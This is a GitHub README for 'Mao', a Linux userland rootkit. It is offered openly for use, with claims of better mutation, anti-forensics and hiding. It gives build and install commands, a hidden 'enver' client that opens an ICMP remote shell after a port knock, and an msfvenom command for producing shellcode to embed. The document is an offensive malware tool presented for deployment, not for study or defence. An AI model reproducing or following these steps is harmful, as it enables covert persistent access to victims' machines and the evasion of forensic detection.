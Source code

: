 # Mao
A protracted people's rootkit.<br><br>
<img src="https://i.redd.it/4pwkibrp0uq91.jpg" />

Another x86_64 userland rootkit for Linux. 
---

Like in real life, Mao took a lot of inspiration from <a href="https://github.com/mephistolist/hoxha">Hoxha</a>. While his style differed from <a href="https://github.com/mephistolist/tito">Tito</a>, they both integrated elements of Capitalism into their economies. At the same time, Mao had his own theory and legacy. For this reason you may find elements of the two previously mentioned projects, but a great deal of improvements and changes. Better mutation, anti-forensics and better hiding on the system. Again, I will probably hold off on going in-depth on this project until after it publication. 

You will need to install one dependency in order to build this code:

```
sudo apt install libreadline-dev
```

You can then download make and install with the following:

```
git clone https://github.com/mephistolist/Mao.git; cd Mao; make; make install;

```

After this you should have a binary called 'enver', you cannot see in the project directory. However, you can type 'enver' with the ip address of where you have this installed to connect:

```
./enver 127.0.0.1
[*] Initiating knock sequence. Please wait.
[*] ☭ Political power grows out of the barrel of a gun. ☭
[+] ICMP shell connected. Type commands (type 'exit' to quit):
icmp-shell>
```

If you make changes to this code, you will need to regenerate its binary data with msfvenom:

```
msfvenom -p linux/x64/exec CMD=/usr/bin/hoxha -f raw -o shellcode.bin -b "\x00\x0a\x0d"
```

Then convert that to base64:

```
cat shellcode.bin | base64 -w0
```

Then replace it with the base64 inside libexec.c and recompile to apply your changes. 
